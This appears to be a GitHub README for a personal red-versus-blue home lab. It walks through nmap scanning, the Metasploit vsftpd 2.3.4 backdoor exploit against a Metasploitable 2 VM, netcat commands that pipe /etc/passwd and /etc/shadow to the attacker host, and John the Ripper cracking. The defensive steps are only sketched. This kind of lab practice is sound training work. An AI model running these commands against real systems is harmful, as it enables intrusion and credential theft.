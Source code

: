 # Offensive-and-Defensive-Cybersecurity-Project
 Overview
This repository documents my personal **Red vs Blue cybersecurity lab** — a simulated corporate network environment designed to practice **offensive** and **defensive** security skills.  
The goal of this project is to replicate real-world scenarios, execute attack simulations, and develop security controls to detect, mitigate, and respond to threats.

---

 🎯 Objectives
- Simulate realistic cyber attacks (Red Team)
- Harden systems and deploy defenses (Blue Team)
- Develop and test incident response playbooks
- Document findings, improvements, and lessons learned

---

🖥️ Lab Architecture

| Role          | OS / Tools Used | IP Address |
|---------------|-----------------|
| **Attacker**  | Kali Linux (Nmap, Metasploit,  John the Ripper) | 192.168.27.5
| **Victim**    | Metasploitable 2 (vulnerable Linux target) | 192.168.27.4
| **Defender**  | Ubuntu Desktop (UFW firewall, fail2ban, IDS/IPS) |

## ⚔️ Red Team Activities
- **Reconnaissance:** Nmap scanning for open ports & services
- **Exploitation:** Using Metasploit to gain shell access
- **Post-Exploitation:** Dumping `/etc/passwd` and `/etc/shadow` files
- **Password Cracking:** Using `John the Ripper` and `hashcat`
- **Persistence:** Establishing backdoors

---

## 🛡️ Blue Team Activities
- **System Hardening:** Removing unused services, updating packages
- **Firewall Rules:** UFW and iptables configurations
- **Intrusion Detection:** Installing and tuning Snort/Suricata
- **Log Analysis:** Reviewing `/var/log` for suspicious activity
- **Incident Response:** Blocking attacker IPs, restoring services

---

## 🛠 Tools & Technologies
- **Offense:** Nmap, Metasploit, Hydra, John the Ripper
- **Defense:** UFW, fail2ban, Snort, Wireshark
- **Utilities:** netcat, tcpdump, OpenVAS

- ---

--Step 1: VM Startup & Recon 

---


![Spinup](https://github.com/mfaustino4786/Offensive-and-Defensive-Cybersecurity-Project/blob/main/screenshots/Spinupvm.png)


--ip a (check IP)

![verifyIP](https://github.com/mfaustino4786/Offensive-and-Defensive-Cybersecurity-Project/blob/main/screenshots/verify%20ips.png)

--nmap -sS -sV -0 192.168.27.4

![nmap](https://github.com/mfaustino4786/Offensive-and-Defensive-Cybersecurity-Project/blob/main/screenshots/nmapscan.png)

--Step 2:  Exploitation


--msfconsole 

![msfconsole](https://github.com/mfaustino4786/Offensive-and-Defensive-Cybersecurity-Project/blob/main/screenshots/msfconsole.png)


--use exploit/unix/ftp/vsftpd_234_backdoor

--set RHOSTS 192.168.27.4

--run

![runPayload](https://github.com/mfaustino4786/Offensive-and-Defensive-Cybersecurity-Project/blob/main/screenshots/runpayload.png)


--Step 3: File Extraction




--nc -lvnp 9001 > passwd

--nc -lvnp 9002 > shadow

--cat /etc/passwd | nc 192.168.27.5 9001

--cat /etc/shadow | nc 192.168.27.5 9002

![extract](https://github.com/mfaustino4786/Offensive-and-Defensive-Cybersecurity-Project/blob/main/screenshots/extractfiles.png)



--Step 4: Password Cracking

--john --format=md5crypt-long --wordlist=/usr/share/wordlists/rockyou.txt shadow
![John](https://github.com/mfaustino4786/Offensive-and-Defensive-Cybersecurity-Project/blob/main/screenshots/johnrun.png)

--john -show shadow

![johnshow](https://github.com/mfaustino4786/Offensive-and-Defensive-Cybersecurity-Project/blob/main/screenshots/johnshow.png)






## 📅 Progress Log
- **08/09/2025** Initial lab setup in VirtualBox
- **08/10/2025** Performed reconnaissance and scanning with Nmap
- **08/10/2025** Gained shell access to Metasploitable via FTP exploit
- **08/10/2025** Extracted password hashes and began cracking
- **08/11/2025** Implemented UFW firewall rules on Ubuntu defender
